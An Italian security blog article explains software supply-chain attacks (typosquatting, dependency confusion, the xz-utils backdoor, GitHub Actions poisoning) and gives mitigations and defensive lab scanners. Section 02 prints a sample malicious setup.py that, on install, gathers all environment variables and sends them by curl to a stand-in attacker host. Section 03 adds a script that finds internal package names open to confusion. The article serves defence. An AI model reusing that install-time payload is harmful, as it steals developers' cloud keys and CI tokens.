








01 — il modello di minacciaIl codice che non hai scritto
Ogni progetto moderno dipende da centinaia di pacchetti. Un'applicazione Python media importa 127 dipendenze dirette. Ognuna porta le sue. La superficie di attacco non è il tuo codice: è tutto il codice di cui ti fidi implicitamente.
Un supply chain attack non compromette il tuo sistema. Compromette qualcosa che il tuo sistema installa, esegue o di cui si fida. La differenza è fondamentale: l'attaccante non deve bucare le tue difese. Deve solo far sì che tu inviti il payload dentro.
pubblica
repository
vittima
esegue il payload
compromesso
La pipeline di attacco è brutalmente semplice: l'attaccante pubblica un pacchetto sul registro pubblico, la vittima lo installa (spesso involontariamente, tramite un nome simile o una dipendenza transitiva), e il codice malevolo viene eseguito con i privilegi dell'utente al momento dell'installazione, non dell'esecuzione. Non serve nemmeno avviare il programma.
Un'unica idea, punti diversi della pipeline. Typosquatting, dependency confusion, CI poisoning, maintainer takeover non sono tecniche diverse. Sono la stessa idea applicata a punti diversi della catena: far eseguire alla vittima codice che non ha scelto, nel momento in cui non sta guardando.
02 — typosquattingUn carattere di distanza dal disastro
Il typosquatting è la tecnica più semplice e più efficace. Registri un pacchetto con un nome
quasi identico a quello legittimo, un carattere sostituito, invertito o aggiunto, e aspetti.
Non è solo chi digita male nel terminale. È il copy-paste da StackOverflow. È l'autocomplete
della shell che suggerisce il pacchetto sbagliato. Sono gli snippet generati da un LLM che
hallucina un nome plausibile ma inesistente. La superficie non è la tastiera: è l'intera
catena che porta un nome dentro requirements.txt.
| Pacchetto Legittimo | Variante Malevola | Tecnica | Download reali (prima rimozione) |
|---|---|---|---|
requests |
reqeusts, request |
Trasposizione / troncamento | ~14.000 |
numpy |
nump, numipy |
Omissione / inserzione | ~8.200 |
boto3 |
bото3 (с cirillico) |
Homoglyph | ~3.100 |
urllib3 |
urllib, urlib3 |
Troncamento / sostituzione | ~21.000 |
lodash (npm) |
lodahs, load-ash |
Trasposizione / separazione | ~5.600 |
Il payload classico non è complesso. Vive in setup.py o in
__init__.py, eseguito automaticamente da pip durante l'installazione:
| 1 | # setup.py — estratto semplificato da campioni reali |
| 2 | import os, subprocess, sys, socket, platform |
| 3 | from setuptools import setup |
| 4 | |
| 5 | def exfil(): |
| 6 | data = { |
| 7 | "h": socket.gethostname(), |
| 8 | "u": os.getlogin(), |
| 9 | "p": platform.platform(), |
| 10 | "env": dict(os.environ), # AWS_SECRET_ACCESS_KEY, CI tokens, ecc. |
| 11 | } |
| 12 | try: |
| 13 | subprocess.run( |
| 14 | ["curl", "-s", "-d", str(data), "https://c2.attacker.io/collect"], |
| 15 | timeout=3, capture_output=True |
| 16 | ) |
| 17 | except: pass # silenzioso — nessun traceback |
| 18 | |
| 19 | exfil() |
| 20 | |
| 21 | setup(name="reqeusts", version="2.31.0", ...) # versione identica al legittimo |
Perché funziona in CI/CD. Le pipeline di build eseguono pip install -r requirements.txt
con variabili d'ambiente come AWS_ACCESS_KEY_ID, GITHUB_TOKEN,
DATABASE_URL già iniettate. Un typo nel file requirements esfiltra credenziali
cloud prima ancora che il codice venga testato. La finestra di esposizione è di millisecondi.
03 — dependency confusionL'attacco di Alex Birsan
Nel febbraio 2021, il ricercatore Alex Birsan pubblica un paper che scuote l'intero settore. Scopre che molte aziende usano registri privati di pacchetti (Artifactory, Nexus, GitHub Packages) con nomi che non esistono nei registri pubblici. La vulnerabilità: se il gestore di pacchetti controlla prima il registro pubblico, un attaccante può pubblicare lì un pacchetto con lo stesso nome ma versione superiore.
pubblica v9.0.0
"nome-interno"
nome-interno
v1.2.3
pubblico vince
Birsan ha guadagnato $130.000 in bug bounty in pochi mesi testando questo
su Apple, Microsoft, PayPal, Shopify, Netflix, Uber e altri. Nessuna delle aziende sapeva
che i propri nomi di pacchetti interni fossero esposti. La scoperta era nei file
package.json e requirements.txt di repository pubblici o in
risposte di errore delle API.
| 1 | # scan_confusion.py — trova nomi di pacchetti interni esposti |
| 2 | # cerca in GitHub i file requirements.txt con nomi non su PyPI |
| 3 | import requests, json, time |
| 4 | |
| 5 | def exists_on_pypi(pkg_name: str) -> bool: |
| 6 | r = requests.get(f"https://pypi.org/pypi/{pkg_name}/json", timeout=5) |
| 7 | return r.status_code == 200 |
| 8 | |
| 9 | def extract_internal_pkgs(requirements_content: str, |
| 10 | internal_prefixes: list) -> list: |
| 11 | candidates = [] |
| 12 | for line in requirements_content.splitlines(): |
| 13 | line = line.strip().split("==")[0].split(">=")[0] |
| 14 | if any(line.startswith(p) for p in internal_prefixes): |
| 15 | if not exists_on_pypi(line): |
| 16 | candidates.append(line) |
| 17 | return candidates |
| 18 | |
| 19 | # Esempio: pacchetti con prefisso aziendale non presenti su PyPI |
| 20 | req_txt = """ |
| 21 | requests==2.31.0 |
| 22 | acme-internal-auth==1.0.0 |
| 23 | acme-data-utils==0.3.1 |
| 24 | flask==3.0.0 |
| 25 | """ |
| 26 | |
| 27 | vuln = extract_internal_pkgs(req_txt, ["acme-", "mycompany-"]) |
| 28 | print(f"Pacchetti interni non su PyPI: {vuln}") |
Checking 4 packages against PyPI... requests==2.31.0 → EXISTS on PyPI acme-internal-auth → NOT FOUND on PyPI ← VULNERABLE acme-data-utils → NOT FOUND on PyPI ← VULNERABLE flask → EXISTS on PyPI Pacchetti interni non su PyPI: ['acme-internal-auth', 'acme-data-utils']
04 — CVE-2024-3094Il backdoor xz-utils: due anni di ingegneria sociale
Marzo 2024. Andres Freund, ingegnere Microsoft, nota che sshd su una Debian
Sid è 500ms più lento del previsto. Indaga. Quello che trova è uno dei supply chain attack
più sofisticati della storia dell'informatica.
xz-utils è un compressore/decompressore dati usato su praticamente ogni
distribuzione Linux. Nella versione 5.6.0 e 5.6.1, qualcuno aveva inserito un backdoor nel
processo di build che modificava la libreria liblzma per intercettare e
manipolare RSA durante l'autenticazione SSH.
La timeline è sconvolgente. L'attaccante, noto come "Jia Tan" (JiaT75), ha iniziato a contribuire al progetto xz nel novembre 2021. Per due anni ha costruito reputazione: fix legittimi, miglioramenti di performance, collaborazione corretta. Nel 2023 ha iniziato a fare pressione sul maintainer originale (che ha dichiarato di soffrire di burn-out) per avere accesso diretto al repository. Nel gennaio 2024 ha il commit access. Due mesi dopo, il backdoor è nei mirror di Debian e Fedora.
Il meccanismo tecnico è elaborato. Il payload non è nel codice sorgente visibile: è in un
file binario di test (tests/files/bad-3-corrupt_lzma2.xz) che viene estratto
e inserito durante il processo di autogen.sh. Il risultato finale modifica
RSA_public_decrypt in OpenSSH tramite LD_PRELOAD implicito via
systemd.
| 1 | # Rilevare la versione vulnerabile |
| 2 | xz --version |
| 3 | # xz (XZ Utils) 5.6.0 ← VULNERABILE |
| 4 | # xz (XZ Utils) 5.6.1 ← VULNERABILE |
| 5 | |
| 6 | # Verificare se liblzma è linkato a sshd |
| 7 | ldd $(which sshd) | grep liblzma |
| 8 | # liblzma.so.5 => /lib/x86_64-linux-gnu/liblzma.so.5 ← presente = esposto |
| 9 | |
| 10 | # Strumento di rilevamento di Binarly |
| 11 | python3 xz_detector.py /usr/lib/x86_64-linux-gnu/liblzma.so.5 |
| 12 | # [!] BACKDOOR RILEVATO: hook su RSA_public_decrypt trovato |
L'obiettivo finale del backdoor era permettere all'attaccante di autenticarsi via SSH su qualsiasi sistema affetto usando una chiave privata hardcoded nel payload (struttura Ed448). Nessun account. Nessuna password. Accesso root silenzioso a milioni di server Linux. Scoperto per caso, a 14 ore dalla sua inclusione in Fedora 40 stable.
Jia Tan non è mai stato identificato. L'analisi del comportamento, orari di commit costantemente in fuso orario Asia/Est, pattern di comunicazione, stile di codice, delinea un profilo compatibile con un'operazione statale pianificata. Due anni di pazienza per una backdoor che avrebbe dato accesso a una frazione significativa dell'infrastruttura Internet globale. Non il lavoro di un singolo individuo.
05 — CI/CD poisoningLa pipeline è la vulnerabilità
GitHub Actions ha democratizzato il CI/CD. Ha anche creato una superficie di attacco
che la maggior parte dei team non considera: le azioni di terze parti.
Quando scrivi uses: actions/checkout@v4, stai eseguendo codice di qualcun
altro con accesso ai tuoi segreti, al tuo codice sorgente e spesso ai tuoi ambienti
di produzione.
| 1 | # .github/workflows/deploy.yml — pattern pericoloso |
| 2 | steps: |
| 3 | - uses: some-vendor/deploy-action@main # ← @main = sempre l'ultimo commit |
| 4 | with: |
| 5 | aws-access-key: ${{ secrets.AWS_ACCESS_KEY_ID }} |
| 6 | aws-secret-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }} |
| 7 | token: ${{ secrets.PROD_DEPLOY_TOKEN }} |
| 8 | |
| 9 | # Se l'account di some-vendor viene compromesso o l'azione aggiornata |
| 10 | # con codice malevolo, le credenziali vengono esfiltrate al prossimo push. |
| 11 | # Usa SEMPRE il SHA commit: uses: some-vendor/deploy-action@a1b2c3d4 |
Nel marzo 2025, l'attacco tj-actions/changed-files ha compromesso migliaia di workflow GitHub. L'attaccante ha ottenuto accesso al token della GitHub Action, ha modificato il codice per stampare i segreti nei log della pipeline, e ha aspettato che i repository la eseguissero. 23.000 repository esposti in poche ore.
| 1 | # audit_workflows.py — verifica se le Actions usano SHA o tag mutabili |
| 2 | import re, pathlib, sys |
| 3 | |
| 4 | SHA_RE = re.compile(r'uses:\s+[\w/\-]+@([0-9a-f]{40})') |
| 5 | TAG_RE = re.compile(r'uses:\s+([\w/\-]+)@(v[\d\.]+|main|master|latest)') |
| 6 | |
| 7 | def audit_dir(base: str): |
| 8 | findings = [] |
| 9 | for f in pathlib.Path(base).rglob("*.yml"): |
| 10 | content = f.read_text(errors="ignore") |
| 11 | for m in TAG_RE.finditer(content): |
| 12 | findings.append({ |
| 13 | "file": str(f), |
| 14 | "action": m.group(1), |
| 15 | "ref": m.group(2), |
| 16 | "risk": "HIGH" if m.group(2) in ("main", "master", "latest") else "MEDIUM", |
| 17 | }) |
| 18 | return findings |
| 19 | |
| 20 | if __name__ == "__main__": |
| 21 | results = audit_dir(sys.argv[1] if len(sys.argv) > 1 else ".") |
| 22 | for r in results: |
| 23 | print(f"[{r['risk']}] {r['action']}@{r['ref']} in {r['file']}") |
Scanning 12 workflow files... [HIGH] some-vendor/deploy-action@main in .github/workflows/deploy.yml [HIGH] tj-actions/changed-files@master in .github/workflows/pr-check.yml [MEDIUM] actions/checkout@v4 in .github/workflows/test.yml [OK] actions/setup-python@a1b2c3d4e5f6... in .github/workflows/lint.yml 2 HIGH risk, 1 MEDIUM risk trovati. Fix: pin a SHA commit specifico.
Non serve pubblicare un pacchetto nuovo. Basta prendere il controllo di uno
esistente. Nel 2018, un utente ha convinto il maintainer di event-stream (npm,
2 milioni di download settimanali) a cedergli l'accesso al repository. Ha aggiunto una
dipendenza malevola, flatmap-stream, che rubava wallet Bitcoin. Nessun typo,
nessuna confusione di nome: il pacchetto era quello giusto, aggiornato dal maintainer
ufficiale. Lo stesso pattern di xz-utils, tre anni prima, su scala diversa. Il vettore
più pericoloso non è il registro. È la fiducia nel maintainer.
06 — mitigazioniCome si difende la catena
Non esiste una difesa single-shot. La supply chain richiede difesa a strati.
| Vettore | Difesa Primaria | Tool / Standard | Effort |
|---|---|---|---|
| Typosquatting PyPI/npm | Verificare nome prima di installare. Hash lockfile. | pip-audit, npm audit, pip install --require-hashes |
Basso |
| Dependency Confusion | Prefissi privati registrati anche pubblicamente. Namespace scoping. | Artifactory "priority-resolution", npm scoped packages (@company/pkg) |
Medio |
| Codice malevolo in pacchetti legittimi | SBOM + analisi statica pre-installazione | Sigstore/Cosign, SLSA Level 3, socket.dev |
Alto |
| GitHub Actions non pinnate | Pin a SHA commit immutabile | pin-github-action, zizmor, GitHub required reviewers |
Basso |
| Maintainer compromise (xz-style) | Reproducible builds. Verifica firma multipla. | Sigstore, SLSA, Nix reproducible builds | Molto alto |
| Payload eseguito durante install | Install-time isolation: build in sandbox senza rete | Container effimeri, --no-build-isolation, Nix sandboxed builds, Bazel hermetic |
Medio |
| 1 | # Installa con hash verification — lockfile con hash SHA256 |
| 2 | pip install --require-hashes -r requirements.txt |
| 3 | |
| 4 | # Generare requirements con hash (pip-tools) |
| 5 | pip-compile --generate-hashes requirements.in |
| 6 | |
| 7 | # Audit continuo con pip-audit (integrato in CI) |
| 8 | pip-audit --requirement requirements.txt --output json |
| 9 | |
| 10 | # Per npm: verificare integrità con lockfile v3 |
| 11 | npm ci # usa package-lock.json, fallisce se diverge |
07 — labGli script per il laboratorio
Il lab completo include sette strumenti per analizzare, monitorare e difendere la propria supply chain.
Gli script del lab.
typo_scanner.py: genera varianti Levenshtein-1 di ogni dipendenza e controlla PyPI/npm API.
confusion_audit.py: identifica nomi di pacchetti con prefissi aziendali non presenti nei registri pubblici.
setup_analyzer.py: analisi statica AST di setup.py per rilevare pattern sospetti (network, subprocess, exec).
audit_workflows.py: verifica che tutte le Actions usino SHA commit immutabili.
sbom_diff.py: genera e confronta CycloneDX SBOM tra ambienti diversi.
pypi_sentinel.py: monitor real-time del feed RSS PyPI. Polling, download sdist, 20 regole euristiche, analisi AST,
check typosquatting Levenshtein, e analisi AI opzionale via Ollama. Include campioni sintetici per il test.
installed_audit.py: scansiona l'ambiente pip attivo, scarica ogni sdist da PyPI e lo analizza con lo stesso engine del sentinel.
Tutto nella cartella scripts/il-pacco-e-avvelenato su GitHub.
pypi_sentinel.py: analisi campioni sintetici
Cinque campioni malevoli (exfiltration, exec+base64, reverse shell, steganografia, typosquat wrapper) e uno pulito. Il sentinel li classifica correttamente: 3 CRITICAL, 2 HIGH, 1 CLEAN.

typo_scanner.py: varianti di "requests"
87 varianti generate (trasposizione, omissione, inserzione, homoglyph). Tre esistono su PyPI:
requestx, requestz, requezts.

setup_analyzer.py: analisi statica AST
Scansione dei campioni sintetici. 7 file analizzati, 23 finding: import di socket/subprocess, exec(), base64.b64decode(), URL hardcoded verso C2, codecs.decode hex.

confusion_audit.py: dependency confusion
Audit di un requirements.txt con prefissi aziendali. Tre pacchetti interni non registrati su PyPI: un attaccante potrebbe registrarli con versione alta e ottenere esecuzione di codice.

sbom_diff.py: inventario dipendenze
Genera una SBOM in formato CycloneDX dall'ambiente pip attivo. 1108 componenti catalogati con nome, versione e PURL.

pypi_sentinel.py --check: pacchetto singolo
Verifica rapida su un pacchetto specifico. colorama risulta CLEAN: score 0, nessun pattern sospetto.

installed_audit.py: audit pacchetti installati
Scansione dei primi 25 pacchetti pip installati. 15 CLEAN, 5 MEDIUM, 2 HIGH, 2 CRITICAL. Entrambi i CRITICAL sono falsi positivi. Li ho verificati scaricando gli sdist e leggendo il codice sorgente.
altgraph==0.17.4 (score 100). Pacchetto di Ronald Oussoren, ecosistema PyObjC/PyInstaller.
La chiamata eval() a riga 68 valuta environment markers PEP 508 in un namespace ristretto
che contiene solo python_version, os, sys: nessun accesso al
filesystem o alla rete. In pratica non viene nemmeno eseguita perché il pacchetto non ha dipendenze
condizionali. __import__() a riga 290 importa i moduli di test dal proprio pacchetto,
eseguito solo con python setup.py test. cmdclass aggiunge URL di progetto
in PKG-INFO. Gli URL puntano a readthedocs, GitHub e PyPI.
aiohttp==3.10.5 (score 60). La tripla segnalazione su os.environ corrisponde
a una singola riga: NO_EXTENSIONS = bool(os.environ.get("AIOHTTP_NO_EXTENSIONS")). È il
toggle standard per disabilitare la compilazione delle estensioni C. Lo stesso pattern lo usano
ujson, msgpack, pyyaml. Il riferimento a http.client
nel setup.cfg non è un import: è la descrizione del progetto ("Async http client/server framework").
Questo è il punto: un'analisi euristica non distingue os.environ.get("AIOHTTP_NO_EXTENSIONS")
da os.environ.get("AWS_SECRET_ACCESS_KEY"). Stessa API, intent opposto.
Lo strumento segnala. La valutazione resta umana.

pypi_sentinel.py --live: monitor real-time
Polling del feed RSS di PyPI ogni 30 secondi. Su 40 pacchetti nuovi, il sentinel ha trovato due alert.
thisisimytest (CRITICAL, score 60). Tre chiamate os.system() nel setup.py.
Nome sospetto, versione unica. Ho provato a verificarlo su PyPI dopo la scansione: il pacchetto
non esiste più. È stato rimosso, probabilmente dai sistemi automatici di PyPI o dall'autore stesso.
Un pacchetto che viene pubblicato e cancellato nel giro di ore è esattamente il pattern dei
supply chain attack reali: finestra breve, impatto su chi ha fatto pip install
nel momento sbagliato. Il sentinel lo ha catturato quando era ancora attivo.
csp-adapter-telegram (MEDIUM, score 20). Segnalato per __import__()
a riga 1. Falso positivo: è un pattern comune per lazy import in pacchetti con dipendenze opzionali.
Il pacchetto esiste, è stabile, ha una storia di release coerente.

Il problema strutturale. PyPI e npm pubblicano pacchetti in secondi, senza revisione umana.
La rimozione richiede ore o giorni. Tempo sufficiente per raggiungere migliaia di installazioni automatizzate.
Nel 2024, oltre il 40% dei pacchetti malevoli rilevati era rimasto attivo per più di 24 ore prima della rimozione.
I sistemi CI/CD eseguono pip install centinaia di volte al giorno, su ogni PR.
La supply chain non è un problema teorico: è la superficie di attacco più trascurata in produzione.
Aspetti che il server installi il tuo codice."
Il supply chain attack non sfrutta una vulnerabilità nel codice: sfrutta la fiducia. La fiducia che riponiamo nei registri pubblici, nei maintainer, nei contributor, nelle azioni di terze parti. Jia Tan ha dimostrato che questa fiducia può essere ingegnerizzata su un orizzonte di anni. La risposta non è smettere di usare dipendenze. È cambiare come le usiamo: lockfile con hash, SBOM, SLSA, verifiche di firma, Actions pinnate a SHA. Ogni dipendenza senza hash è una promessa che qualcun altro potrebbe non mantenere.
Signal Pirate